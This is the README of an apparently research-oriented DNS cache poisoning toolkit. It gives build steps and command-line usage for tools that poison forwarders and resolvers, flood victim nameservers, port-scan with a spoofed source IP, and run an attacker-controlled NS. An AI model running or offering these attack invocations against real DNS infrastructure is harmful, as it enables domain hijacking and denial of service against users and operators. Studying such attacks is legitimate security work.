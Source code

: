 # Dnsinjector2

(The following contents is translated from Chinese. Please contact [@wonderqs](https://github.com/wonderqs) or view the original Chinese version of README in previous commits.)

### Build

Dependencies:

- cmake
- make
- gcc / clang

````
./build.sh
````

or

````
mkdir build
cmake ..
make
````

### Usage

The following executables will be produced after building:

- attack_forwr (Forwarder attacking tool)
- attack_recur (Resolver attacking tool)
- attack_recur_ns (Resolver attacking tool, NS record polluting version)
- nsmuter (Attack tool for flooding the victim NS)
- udpscan (Private UDP port scanner)
- delayns（The program that sets up attacker-controlled NS.）

**Please run executables using root privileges because raw socket is used.**

#### attack_forwr

````
./attack_forwr -t <target_ip> -s <scan_src_ip> -u <upstream_ip> -o <tool_domain> -d <domain_poisoned> -a <poisoned_ip> [-v]
````

- -t:The IP of the victim forwarder;
- -s:The source IP for port scanning;
- -u:The upstream DNS resolver IP of the victim forwarder;
- -o:The attacker-controlled domain (used to piggyback the malicious CNAME response);
- -d:The victim domain;
- -a:The IP you want to hijack the victim domain to;
- -v:Verbose.


#### attack_recur

````
./attack_recur -i <recur_ip_in> -o <recur_ip_out> -s <scan_src_ip> -u <ns_server_ip>:<ns_server_ip> -d <domain_poisoned> -a <poisoned_ip> [-v]
````

- -i:The front-end IP of the victim resolver;
- -o:The back-end IP of the victim resolver;
- -s:The source IP for port scanning;
- -u:The IPs of the NSes of the victim domain. Split multiple IPs using ":";
- -d:The victim domain;
- -a:The IP you want to hijack the victim domain to;
- -v:verbose;

#### attack_recur_ns

````
./attack_recur -i <recur_ip_in> -o <recur_ip_out> -s <scan_src_ip> -u <ns_server_ip>:<ns_server_ip> -d <domain_poisoned> -n <poisoned_ns> [-v]
````

- -i:The front-end IP of the victim resolver;
- -o:The back-end IP of the victim resolver;
- -s:The source IP for port scanning;
- -u:The IPs of the NSes of the victim domain. Split multiple IPs using ":";
- -d:The victim domain;
- -n:The NS record of the upper-level domain of the victim domain after poisoning;
- -v:verbose;

#### nsmuter

````
./nsmuter -r <resolver_ip> -u <ns_server_ip> -d <domain_queried> [-s seconds] [-t threads]
````

- -r:The source IP of the flooding packets;
- -u:The destination IP of the flooding packets;
- -d:The DNS query name of the flooding packets;
- -s:Flooding time;
- -t:The number of threads to use;


#### udpscan

````
/udpscan -t <target_ip> -u <spoof_ip> [-s start_port] [-e end_port] [-l icmp_limit] [-v]
````

- -t:The destination IP of the scanning;
- -u:The source IP of the scanning packet;
- -s:Start port number;
- -e:End port number;
- -l:The ICMP global limit of the remote host;
- -v:Verbose;


#### delayns

````
./delayns -l <listen_addr> -z <domain_zone> -n <ns_domain>
````

- -l: Listening port number;
- -z: The domain hosted on this NS;
- -n: The domain name of this NS;
